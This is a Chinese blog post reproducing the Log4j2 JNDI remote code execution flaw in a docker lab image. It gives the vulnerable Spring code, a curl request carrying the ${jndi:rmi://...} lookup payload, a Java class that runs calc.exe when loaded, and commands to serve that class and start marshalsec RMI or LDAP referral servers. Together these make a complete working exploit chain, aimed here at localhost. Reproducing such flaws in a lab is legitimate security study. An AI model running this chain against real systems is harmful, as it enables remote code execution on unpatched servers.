 ```yaml
---
title: Log4j远程代码执行漏洞的复现
date: 2021-12-10
categories:  
    - 闲话编程
    - Java
---
```

Log4j2突然爆出个大漏洞，闹得全世界都在修这个问题。但这个问题到底能不能复现出来呢？花了一些时间，终于折腾出来了。

<!-- more -->

# 漏洞的原理

# 如何复现
## 准备复现环境

已经有安全平台准备了测试的docker镜像：

```bash
docker run -d -P vulfocus/log4j2-rce-2021-12-09:latest
```

反编译看了一下里面的内容，其实特别简单：

```java
@SpringBootApplication
@RestController
public class Log4j2RceApplication {
    private static final Logger logger = LogManager.getLogger(Log4j2RceApplication.class);

    public Log4j2RceApplication() {
    }

    public static void main(String[] args) {
        SpringApplication.run(Log4j2RceApplication.class, args);
    }

    @PostMapping({"/hello"})
    public String hello(String payload) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        logger.error("{}", payload);
        logger.info("{}", payload);
        logger.info(payload);
        logger.error(payload);
        return "ok";
    }
}
```

当启动上面的程序后，直接调用就可以测试：

```bash
curl --request POST \
  --url http://localhost:8080/hello \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data 'payload=${jndi:rmi://localhost:1099/ExecTest}' \
  --data = \
  --data =
```

可以看到日志中打印出来JNDI相关的日志。但是我们的目标不仅于此，如何真正执行一些有意思的操作，比如开启个计算器？

## 编写恶意代码

准备一个简单的“恶意代码”，这个类在初始化的时候调用系统进程：

```java
public class ExecTest {
    public ExecTest() {
        try {
            System.out.println("You're Hacked!!!");
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

将其编译为.class文件，并需要发布到网络地址上，最简单的是用Tomcat或者python来弄，比如：

```bash
cd target/classes
python3 -m SimpleHTTPServer 
```

## 启动RMI服务

使用https://github.com/mbechler/marshalsec可以快速启动RMI 或者LDAP，这个工具需要自己编译：

```bash
mvn clean package -D"maven.test.skip"=true
 java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://localhost:8000/#ExecTest
 # java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:8080/\#ExecTest 1389
```

## 测试

在之前的请求内容中填上RMI的地址，${jndi:rmi://localhost:1099/ExecTest} 调用成功后即可弹出计算器。


* https://nosec.org/home/detail/4917.html
* https://github.com/apache/logging-log4j2/commit/7fe72d6
